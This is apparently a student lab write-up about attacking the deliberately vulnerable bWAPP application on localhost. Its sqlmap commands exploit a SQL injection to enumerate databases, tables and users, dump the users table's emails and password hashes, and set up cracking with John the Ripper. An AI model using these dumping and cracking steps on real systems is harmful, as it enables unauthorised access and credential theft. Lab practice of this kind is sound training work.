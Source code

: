 # Task 2: Attack on the database of bWapp 

**Question 1**: Use sqlmap to get information about all available databases

**Answer 1**:
-  I choose SQL Injection (GET/Select) bug
-  Then I get my cookie from my browser setting
![scr](imgs/get_cookie.png)

-  Command Script:

```
 python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=4" --dbs --cookie="PHPSESSID=rg31vtuuuqt0s0vh272rrecg14;security_level=0"
```

- Then the output of all databases:

![db](imgs/all_db.png)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

-  Get Tables:
From these databases form question 1. I want to get names of all tables in the database bWAPP, this is the root database that stores all user in this database.

```
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=4" -D bWAPP --tables --cookie="PHPSESSID=rg31vtuuuqt0s0vh272rrecg14;security_level=0"
```
- Output of getting table:

![tables](imgs/all_tables.png)

- Get Users

```
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=4" -users --cookie="PHPSESSID=rg31vtuuuqt0s0vh272rrecg14;security_level=0"
```

-  Output of getting users:

![users](imgs/all_users.png)

So now I have all the table and users on bWAPP.

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

- I will export id, email, password data on users table

```
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=4" -D bWAPP -T users -C id,email,password --dump --columns --cookie="PHPSESSID=rg31vtuuuqt0s0vh272rrecg14;security_level=0"
```

- The output is:

![iep](imgs/iep.png)

- I will copy 2 hashed password inside the csv file of sqlmap to a txt file. Then use John the Ripper to crack them.


